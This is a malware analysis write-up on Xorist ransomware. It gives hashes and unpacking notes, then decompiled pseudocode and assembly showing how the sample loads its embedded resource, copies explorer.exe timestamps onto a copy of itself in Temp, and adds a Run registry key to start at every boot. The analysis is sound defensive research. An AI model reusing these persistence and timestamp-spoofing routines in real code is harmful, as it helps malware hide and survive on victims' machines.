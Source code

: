 # Xorist Ransomware

* [VT Link](https://www.virustotal.com/gui/file/9ac20a04dc317e557f7d67a9cba24fea43b242654d83219dd73e0f0bdef2ff16)
* [VT Link Unpack](https://www.virustotal.com/gui/file/9ac20a04dc317e557f7d67a9cba24fea43b242654d83219dd73e0f0bdef2ff16)

## UPX Packing

The malware is a program compressed with UPX. We will simply decompress it using the UPX program.

![dupx](/images/xorist/dupx.png)

And malware is a simple PE32 file from 2012 :)

![dupx](/images/xorist/diec.png)

- **MD5**: 8c244ebd49a18b4bfc0cf546ee42ee9f 
- **SHA-1**: 653f4a37d6f66d6c2fc8551c1b31429db299c257 
- **SHA-256**: 9ac20a04dc317e557f7d67a9cba24fea43b242654d83219dd73e0f0bdef2ff16 
- **Vhash**: 014046551d5d60a013z10025hz204001gz 
- **Authentihash**: 394052c0bb3b50de83e394a7584c6ca22abb59ab43423f3ab1ebde2fac644190 
- **Imphash**: 0ee5d9cb6f5676c02853dce193d35794 
- **SSDEEP**: 192:e/TrG62a6B10k3g4fXk1iTV3HGc7EkpAqEjvu2q9C/YpXnAITZfPtRMCy00T:eebFNw4Pk1itKkpAjjI2YpdmCy 
- **TLSH**: T1C842290FFDE044E6E712C7F213172606CB7D7561A2A067266FAC2C15147A6E3EE6860F 
- **File type**: Win32 EXE 
- **Magic**: PE32 executable for MS Windows (GUI) Intel 80386 32-bit 
- **TrID**: 
  - Win32 Executable MS Visual C++ (generic) (47.2%)
  - Win64 Executable (generic) (15.9%)
  - Win32 Dynamic Link Library (generic) (9.9%)
  - Win16 NE executable (generic) (7.6%)
  - Win32 Executable (generic) (6.8%)
- **File size**: 12.00 KB (12288 bytes)

## Analyze

### Heap Process

```cpp
 hHeap = GetProcessHeap();
 sub_401F87();

BOOL sub_401F87()
{
  HRSRC ResourceA; // eax
  DWORD v1; // eax
  HGLOBAL Resource; // eax
  SIZE_T *v3; // eax
  SIZE_T *v4; // edi
  SIZE_T v5; // ebx
  SIZE_T *v6; // edi
  LPVOID v7; // eax
  SIZE_T *v8; // edi
  SIZE_T v9; // ebx
  SIZE_T *v10; // edi
  const CHAR *v11; // eax
  SIZE_T *v12; // edi
  SIZE_T v13; // ebx
  SIZE_T *v14; // edi
  const CHAR *v15; // eax
  SIZE_T v16; // edi
  HRSRC hResInfo; // [esp+4h] [ebp-10h]
  DWORD v19; // [esp+8h] [ebp-Ch]
  HGLOBAL hResData; // [esp+Ch] [ebp-8h]

  ResourceA = FindResourceA(0, (LPCSTR)0xE, (LPCSTR)2);
  if ( !ResourceA )
    goto LABEL_9;
  hResInfo = ResourceA;
  v1 = SizeofResource(0, ResourceA);
  if ( !v1 )
    goto LABEL_9;
  v19 = v1;
  Resource = LoadResource(0, hResInfo);
  if ( !Resource )
    goto LABEL_9;
  hResData = Resource;
  v3 = (SIZE_T *)LockResource(Resource);
  if ( !v3 )
    goto LABEL_9;
  v4 = v3;
  RtlMoveMemory(&dword_406DB9, v3, 16);
  v4 += 4;
  sub_40211B(v4, v19 - 16);
  v5 = *v4;
  v6 = v4 + 1;
  v7 = HeapAlloc(hHeap, 8u, v5);
  if ( !v7 )
    goto LABEL_9;
  dword_407519 = (int)v7;
  RtlMoveMemory(v7, v6, v5);
  v8 = (SIZE_T *)((char *)v6 + v5);
  v9 = *v8;
  v10 = v8 + 1;
  v11 = (const CHAR *)HeapAlloc(hHeap, 8u, v9);
  if ( !v11
    || (lpText = v11,
        RtlMoveMemory(v11, v10, v9),
        v12 = (SIZE_T *)((char *)v10 + v9),
        v13 = *v12,
        v14 = v12 + 1,
        (v15 = (const CHAR *)HeapAlloc(hHeap, 8u, v13)) == 0) )
  {
LABEL_9:
    JUMPOUT(0x402330);
  }
  lpSubKey = v15;
  RtlMoveMemory(v15, v14, v13);
  v16 = (SIZE_T)v14 + v13;
  RtlMoveMemory(&unk_406DC9, v16, 16);
  v16 += 16;
  RtlMoveMemory(&byte_407529, v16, 5);
  v16 += 5;
  RtlMoveMemory(byte_406DD9, v16, 16);
  v16 += 16;
  RtlMoveMemory(byte_406DE9, v16, 16);
  v16 += 16;
  RtlMoveMemory(&dword_407525, v16, 4);
  v16 += 4;
  RtlMoveMemory(&dword_4065A5, v16, 4);
  v16 += 4;
  RtlMoveMemory(&lDistanceToMove, v16, 4);
  RtlMoveMemory(&nNumberOfBytesToRead, v16 + 4, 4);
  return FreeResource(hResData);
}

```

This code is a Windows function that extracts and manipulates data from a resource embedded in the executable file. The extracted data is then copied to various memory locations for further processing.

### Setup process

```cpp
BOOL sub_402472()
{
  HANDLE hFile; // [esp+0h] [ebp-4h]

  GetWindowsDirectoryA(byte_40755E, 0x200u);
  PathAddBackslashA(byte_40755E);
  lstrcatA(byte_40755E, aExplorerExe);
  hFile = CreateFileA(byte_40755E, 0x80000000, 1u, 0, 3u, 0, 0);
  GetFileTime(hFile, &CreationTime, &LastAccessTime, &LastWriteTime);
  return CloseHandle(hFile);
}
```

The malware will retrieve the creation/modification date information of explorer.exe located in the Windows directory.
It will attempt to copy itself into the Temporary folder under the name QLUm8OR6vUIE1wP.exe.
If successful, it will then transfer the same creation/modification date information retrieved earlier into its copy.

![copy-temp](/images/xorist/copy-temp.png)

It will add a registry key to start itself upon each startup.

```
push myfile-ok.405950                   ; "C:\\Users\\Admin\\AppData\\Local\\Temp\\QLUm8OR6vUIE1wP.exe"
push myfile-ok.4043D4                   ; "Alcmeter"
push myfile-ok.4043A6                   ; "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
push 80000002                           ; 
call myfile-ok.402422                   ;

push ebp
mov ebp,esp
add esp,FFFFFFF8
lea eax,dword ptr ss:[ebp-4]
push eax
lea eax,dword ptr ss:[ebp-8]
push eax
push 0
push 2001F
push 0
push myfile-ok.404379
push 0
push dword ptr ss:[ebp+C]
push dword ptr ss:[ebp+8]
call <JMP.&RegCreateKeyExA>
push dword ptr ss:[ebp+14]
call <JMP.&lstrlen>
push eax
push dword ptr ss:[ebp+14]
push 1
push 0
push dword ptr ss:[ebp+10]
push dword ptr ss:[ebp-8]
call <JMP.&RegSetValueExA>
push dword ptr ss:[ebp-8]
call <JMP.&RegCloseKey>
```





